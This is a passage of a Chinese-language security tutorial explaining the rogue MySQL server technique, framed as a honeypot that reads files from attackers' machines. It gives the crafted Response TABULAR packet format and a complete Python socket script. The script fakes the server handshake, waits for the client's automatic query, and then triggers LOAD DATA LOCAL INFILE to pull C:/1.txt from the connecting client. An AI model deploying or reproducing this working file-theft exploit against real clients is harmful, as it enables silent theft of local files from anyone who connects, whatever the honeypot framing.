 根据以上样例，我们就可以方便的构造`Greeting`包了，当然，这里我们也可以直接利用上面我们`Wireshark`抓取到的`Greeting`包，接下来就是`Response TABULAR`包了，包的格式上面我们分析过了，我们可以直接构造如下`Paylod`

```
chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename
```

我们就可以对客户端的指定文件进行读取了，这里我们还缺少一个条件，`RUSSIANSECURITY`在博客中也提及过如下内容。

For successfully exploitation you need at least one query to server. Fortunately most of mysql clients makes at least one query like ‘*SET names “utf8”* or something.

这是因为我们传输这个文件读取的数据包时，需要等待一个来自客户端的查询请求才能回复这个读文件的请求，也就是我们现在还需要一个来自客户端的查询请求，幸运的是，通过我们上面的分析我们可以看到，形如`Navicat`等客户端进行连接的时候，会自动发送如下查询请求。

```
SET NAMES utf8mb4
```

从查阅资料来看，大多数MySQL客户端以及程序库都会在握手之后至少发送一次请求，以探测目标平台的指纹信息，例如：

```
select @@version_comment limit 1
```

这样我们的利用条件也就满足了，综上，我们可以恶意模拟一个`MySQL`服务端的身份认证过程，之后等待客户端发起一个`SQL`查询，之后响应的时候我们将我们构造的`Response TABULAR`发送给客户端，也就是我们`LOAD DATA INFILE`的请求，这样客户端根据响应内容执行上传本机文件的操作，我们也就获得了攻击者的文件信息，整体流程图示如下：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

我们可以用`Python`来简单模拟一下这个过程:

```
`import socket``serversocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)` `port = 3306``serversocket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)``serversocket.bind(("", port))``serversocket.listen(5)``while True:` `# 建立客户端连接` `clientsocket,addr = serversocket.accept()`  `print("连接地址: %s" % str(addr))` `# 返回版本信息` `version_text = b"\x4a\x00\x00\x00\x0a\x38\x2e\x30\x2e\x31\x32\x00\x08\x00\x00\x00\x2a\x51\x47\x38\x48\x17\x12\x21\x00\xff\xff\xc0\x02\x00\xff\xc3\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x7a\x6f\x6e\x25\x61\x3e\x48\x31\x25\x43\x2b\x61\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"` `clientsocket.sendall(version_text)` `try:` `# 客户端请求信息` `clientsocket.recv(9999)` `except Exception as e:` `print(e)` `# Response OK` `verification = b"\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00"` `clientsocket.sendall(verification)` `try:` `# SET NAMES utf8mb4` `clientsocket.recv(9999)` `except Exception as e:` `print(e)` `# Response TABULAR` `evil_response = b"\x09\x00\x00\x01\xfb\x43\x3a\x2f\x31\x2e\x74\x78\x74"` `clientsocket.sendall(evil_response)` `# file_text` `print(clientsocket.recv(9999))` `clientsocket.close()`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

我们可以看到，当攻击者链接我们构造的蜜罐时，我们成功抓取到了攻击者`C:/1.txt`文件中的内容，接下来就是对任意文件的构造，我们上面也分析了`Response TABULAR`数据包的格式，因此我们只需要对我们的文件名进行构造即可，这里不再赘述。

```
chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename
```

欺骗扫描器
-----

